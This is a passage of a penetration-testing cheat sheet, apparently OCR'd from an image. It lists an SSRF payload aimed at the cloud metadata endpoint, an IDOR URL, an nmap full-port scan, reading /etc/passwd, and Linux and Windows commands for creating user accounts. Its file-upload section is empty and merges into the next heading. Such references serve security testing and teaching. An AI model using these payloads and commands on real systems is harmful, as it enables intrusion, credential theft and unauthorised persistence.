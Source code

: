 * **Access Internal Services:** `http://target.com/vulnerable_endpoint?url=http://169.254.169.254/latest/meta-data/`

### Insecure Direct Object Reference (IDOR)
----------------------------------

#### Basic IDOR Payloads

* **Accessing User Data:** `http://target.com/user?id=1234`

### File Upload Vulnerabilities### Common Linux Commands
-------------------------

#### Network Scanning

* **Nmap:** `nmap -sS -sV -A -p- target_ip`
* **Netstat:** `netstat -tuln`

#### File Permissions

* **List Files:** `ls -l`
* **Change Permissions:** `chmod 755 file`

#### User Management

* **List Users:** `cat /etc/passwd`
* **Create User:** `useradd username`

#### Process Management

* **List Processes:** `ps aux`
* **Kill Process:** `kill pid`

### Common Windows Commands
-------------------------

#### Network Configuration

* **IPConfig:** `ipconfig /all`
* **Netstat:** `netstat -an`

#### Active Users

* **List Users:** `net user`
* **Create User:** `net user username password /add`

#### Service Management

* **List Services:** `sc query`
* **Start Service:** `net start service`

#### Process List

* **List Processes:** `tasklist`
* **Kill Process:** `taskkill /pid pid`
